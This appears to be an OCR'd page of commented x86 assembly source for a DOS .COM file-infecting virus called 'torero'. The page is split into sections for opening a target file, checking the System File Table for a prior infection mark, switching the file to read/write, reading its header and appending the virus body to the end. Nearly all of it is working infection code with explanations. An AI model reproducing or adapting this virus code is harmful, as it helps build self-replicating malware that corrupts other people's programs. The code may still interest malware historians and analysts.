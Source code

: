 #### Setup and Opening the File

```
infect_file:    pushf                              ; Save flag register on stack
                push    ax bx cx dx                 ; Save registers
                push    si di ds es                 ; Save index and segment registers

                call    set_int_24h                 ; Set interrupt 24h (critical error handler)

                cmp     ah,6ch                      ; Check if extended open (DOS 4.0+)
                jne     normal_open

                mov     dx,si                       ; If extended open, fix register values
normal_open:    mov     ax,3d00h                    ; Open file (handle in AL)
                call    int_21h                     ; Call DOS interrupt 21h to open file
                xchg    bx,ax                       ; Exchange AX and BX (file handle to BX)
```
#### Getting File's SFT and Checking for Previous Infection

```
push    cs               ; Push CS onto stack
                pop     ds                          ; Set DS = CS

                call    get_sft                     ; Get file's System File Table (SFT)
                call    check_mark                  ; Check if file already infected
                jae     close_and_pop               ; Jump if file already infected or error
```

#### Preparing the File for Infection

```
mov     byte ptr es:[di+2],2        ; Set file open mode to read/write
                mov     ax,word ptr es:[di+28h]     ; Get file extension
                cmp     ax,'OC'                     ; Check if file is .COM
                jne     close_and_pop               ; If not .COM, don't infect

                mov     byte ptr cs:[infecting],1   ; Set infection flag
                mov     ah,3fh                      ; Prepare to read file
                mov     cx,3                        ; Read first 3 bytes (to check file header)
                lea     dx,header_store             ; Temporary storage for file header
                call    int_21h                     ; Read file header
```

#### Appending Virus to the File

```
mov     ax,word ptr es:[di+11h]     ; Get file length
                cmp     ax,0ea60h                   ; Check if file is too large
                ja      close_and_pop               ; If too large, don't infect

                push    ax                          ; Save file length
                call    lseek_end                   ; Move file pointer to the end

                mov     ah,40h                      ; Prepare to write to file
                mov     cx,torero_size              ; Size of virus code
                lea     dx,torero_start             ; Start of virus code in memory
                call    int_21h                     ; Append virus to file
```
